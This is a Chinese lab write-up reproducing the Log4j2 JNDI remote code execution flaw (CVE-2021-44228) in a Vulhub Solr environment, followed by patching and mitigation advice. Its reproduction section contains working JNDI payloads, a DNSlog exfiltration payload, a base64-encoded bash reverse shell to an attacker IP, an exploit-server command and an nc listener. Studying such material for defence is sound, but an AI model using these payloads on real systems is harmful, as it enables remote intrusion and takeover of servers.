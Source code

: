 
# 0X00 漏洞信息
Apache Log4j是Apache的一个开源项目 ，Apache log4j2是Log4j的升级版本，用户可以控制日志信息输送的目的地为控制台、文件、GUI 组件等，通过定义每一条日志信息的级别，能够更加细致地控制日志的生成过程。<br />Log4j-2中存在JNDI注入漏洞，当程序将用户输入的数据进行日志记录时，即可触发此漏洞，成功利用此漏洞可以在目标服务器上执行任意代码。该漏洞影响Apache Struts、Apache Solr、Apache Druid、Apache Filnk等众多组件，漏洞影响面大,危害性高，建议客户尽快自查在用软件系统是否受影响，采取措施防护此漏洞。


# 0X01 漏洞概述
| 漏洞名称 | Apache Log4j2远程代码执行漏洞 |
| --- | --- |
| 漏洞等级 | 高危 |
| CVE编号 | CVE-2021-44228 |
| 其他编号 | 暂无 |
| 披露时间 | 2021/12/09 |
| 分数 | 10.0 |
| CVSS | 3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H |
| 披露链接 | [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) |


# 0X02 影响范围

- 2.0-beta9 <= Apache Log4j <= 2.3
- 2.4 <= Apache Log4j <= 2.12.1
- 2.13.0<= Apache Log4j <= 2.15.0-rc1


# 0X03 环境搭建
**使用Vulhub搭建漏洞复现环境**<br />参考地址：[https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228/README.zh-cn.md)

1、将Vulhub下载到本地，并进入log4j2漏洞目录
```
cd /root/vulhub-master/log4j/CVE-2021-44228/
docker-compose up -d
```
![image.png](_img/assets/1669610143166-066556a0-f684-4fca-b529-07f16a5880a0.png)

2、在浏览器访问http://IP:8983
![image.png](_img/assets/1669610200047-7edbd500-a8cb-45bc-ada4-981c3053aa53.png)

3、环境搭建成功


# 0X04 漏洞原理
`org.apache.logging.log4j.core.pattern.MessagePatternConverter`类的`format()`方法发现日志中包含`${`就会将表达式的内容替换为表达式解析后的内容，而不是表达式本身，从而导致攻击者构造符合要求的表达式供系统执行。`${`可使用的关键词非常多，例如：`${java:os}`、`${hostName}`、`${jndi:logging/context-name}`等。<br />`org.apache.logging.log4j.core.lookup.StrSubstitutor`中提取参数并通过lookup进行内容替换，当日志在打印时遇到`${`后，`Interpolator`类以`：`号作为分割，将表达式内容分割成两部分，前面部分作为prefix，后面部分作为key。然后通过prefix去找对应的lookup，通过对应的lookup实例调用lookup方法，最后将key作为参数带入执行。

**JNDI注入：**<br />        目前网络上传播广泛的POC：`${jndi:ldap://my-ip/exp}`除了利用到log4j的递归解析，同样涉及到了JNDI注入，所谓的JNDI注入就是当上文代码中JNDI变量可控时引发的漏洞，它将导致远程class文件加载，从而导致远程代码执行。当这条语句被传入到log4j日志文件中，lookup会将JNDI注入可执行语句执行，程序会通过ldap协议访问my-ip这个地址，然后my-ip就会返回一个包含java代码的class文件的地址，然后程序再通过返回的地址下载class文件并执行，从而达成漏洞利用目的。

**漏洞大致利用流程：**

1. 向目标发送指定payload，目标对payload进行解析执行，然后会通过JNDI链接远程服务，当JNDI服务收到请求之后，将请求进行重定向到恶意 java class的地址。
2. 目标服务器收到重定向请求之后，下载恶意class并执行其中的代码，从而执行系统命令。


# 0X05 漏洞复现
`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：
```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

**验证漏洞是否存在**<br />1、首先在DNSlog平台拿到一个域名
![image.png](_img/assets/1669610975442-3bb2d103-2436-4b1c-a07e-e4f7042f3efa.png)

2、用到管理的接口的action参数构造payload，并访问
```
http://192.168.10.9:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.vqdjxb.dnslog.cn}
```
![image.png](_img/assets/1669611095733-011588aa-283b-4ea4-829c-bb4f0bc02ea2.png)

3、访问之后，dnslog平台出现数据，显示出当前java版本，证明漏洞存在
![image.png](_img/assets/1669611120105-abe411f4-4141-4312-a836-12c5e3fd1b9b.png)

**反弹shell**<br />1、构造反弹shell命令
```
bash -i >& /dev/tcp/192.168.10.38/6666 0>&1
```

2、进行编码
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjM4LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i} 
```
[<br />](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)
3、然后在kali上利用工具（[JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar](https://github.com/welk1n/JNDI-Injection-Exploit/blob/master/README-CN.md)）来启动ldap和web服务
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjM4LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i} " -A "192.168.10.38"
```
![image.png](_img/assets/1669612258515-5a28ced7-1eb0-4370-befe-57f639280f29.png)

4、新开启一个kali窗口监听
```
nc -lvvnp 6666
```
![image.png](_img/assets/1669612305869-0ca2140f-4749-4fd5-8e3c-fb43dcf851f7.png)

5、访问
```
http://192.168.10.9:8983/solr/admin/cores?action=${jndi:ldap://192.168.10.38:1389/byxqhk}
```
成功反弹
![image.png](_img/assets/1669612530859-8a5acd2a-981e-433f-9610-f01726c2cf00.png)


# 0X06 解决方案
目前官方已发布测试版本修复该漏洞，受影响用户可先将Apache Log4j2所有相关应用到该版本。<br />下载链接：[https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

**临时缓解方案**<br />若受影响用户暂时无法进行升级操作，可以使用systemtap来临时缓解：

1. 添加jvm启动参数:`-Dlog4j2.formatMsgNoLookups=true `
2. 在应用classpath下添加[log4j2.component.properties](http://log4j2.component.properties/)配置文件，文件内容为：log4j2.formatMsgNoLookups=true

![image.png](_img/assets/1669613361258-0498ee19-ad81-4f6c-b496-b8f5ffd473a9.png)

3. 建议JDK使用11.0.1、8u191、7u201、6u211及以上的高版本
4. 限制受影响应用对外访问互联网，并在边界对dnslog相关域名访问进行检测。
